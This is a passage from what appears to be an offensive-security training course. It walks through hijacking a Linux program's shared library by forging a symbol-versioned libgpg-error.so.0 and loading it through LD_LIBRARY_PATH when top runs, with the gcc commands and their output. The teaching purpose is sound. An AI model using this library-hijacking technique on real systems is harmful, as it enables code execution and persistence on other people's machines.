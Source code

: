This simply provides a list of symbols that we can then "wrap" into a symbol map file for the compiler to use. We'll call this file gpg.map.

```
GPG_ERROR_1.0 {
gpgrt_onclose;
_gpgrt_putc_overflow;
...
gpgrt_fflush;
gpgrt_poll;

};
```

> Listing 54 - Symbol map file

The version number for these symbols doesn't have any direct impact on our exploit, but it fulfills the version requirement that is causing our earlier error message.

Once the file is created, we can compile our shared library again and include the symbol file with --version-script.

```
offsec@linuxvictim:~/ldlib$ gcc -Wall -fPIC -c -o hax.o hax.c

offsec@linuxvictim:~/ldlib$ gcc -shared -Wl,--version-script gpg.map -o libgpg-error.so.0 hax.o
```

> Listing 55 - Recompiling the shared library with a symbol map

We set our _LD\_LIBRARY\_PATH_ environment variable as we did before and run the application again.

```
offsec@linuxvictim:~/ldlib$ export LD_LIBRARY_PATH=/home/offsec/ldlib/

offsec@linuxvictim:~/ldlib$ top
DLL HIJACKING IN PROGRESS 
top - 14:55:15 up 9 days,  4:35,  2 users,  load average: 0.01, 0.01, 0.00
Tasks: 164 total,   1 running,  92 sleeping,   0 stopped,   0 zombie
...
```

> Listing 56 - Working correctly

This time, we do not receive an error message.

We can look for the file our library was supposed to modify in /tmp.

```
offsec@linuxvictim:~/ldlib$ ls -al /tmp/haxso.txt 
-rw-rw-r-- 1 offsec offsec 0 Jul 10 17:12 /tmp/haxso.txt
```

> Listing 57 - Evidence of our code working properly

The results show the file was created.

In this case, we were somewhat lucky in that our application ran properly without the libgpg\_error library. If an error occurred that required libgpg\_error, the application would likely crash.

